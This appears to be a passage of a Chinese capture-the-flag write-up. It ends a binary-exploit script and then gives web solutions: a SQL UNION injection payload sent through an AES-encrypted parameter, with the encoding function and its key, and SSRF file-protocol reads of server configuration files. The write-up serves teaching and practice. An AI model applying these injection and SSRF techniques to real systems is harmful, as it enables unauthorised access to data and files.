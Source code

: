 ```python
p.sendline(payload)
p.sendline("n")
p.interactive()
```

### WEB

#### Code check

> 1. 扫描发现`http://47.107.236.42:49882/news/list.zip`，得到源码
> 2. `http://47.107.236.42:49882/news/list.php?id=b3FCRU5iOU9IemZYc1JQSkY0WG5JZz09`的id存在mysql注入，id经aes加密，密钥、iv、盐都已经给出，写个加密函数，注入即可
> 3. 加密函数如下
> 4. payload：-1 union select 1,title,id,4 from notice2#

```php
 function encode($data){
	$td = mcrypt_module_open(MCRYPT_RIJNDAEL_128,'',MCRYPT_MODE_CBC,'');
	mcrypt_generic_init($td,'ydhaqPQnexoaDuW3','2018201920202021');
	$data = $data . 'hxb2018';
	$data = mcrypt_generic($td, $data);
	return base64_encode(base64_encode($data));
}
```



![image](./img/pasted%20image%200%20(2).png)

#### Read Flag

> 1. 存在 SSRF 漏洞
> 2. 手动 fuzz 一下发现可以使用 file 协议读取文件
> 3. 读取 /etc/apache2/sites-enabled/000-default.conf 得到 web 目录为 /var/www/html/ssrf/web.php
> 4. 读取该文件发现，本地请求一下会执行一个叫 readflag 的二进制程序
> 5. 下载该二进制程序发现逻辑仅仅是读取当前文件夹下的 flag 文件
> 6. 通过 ssrf 读取即可

![image](./img/pasted%20image%200%20(3).png)

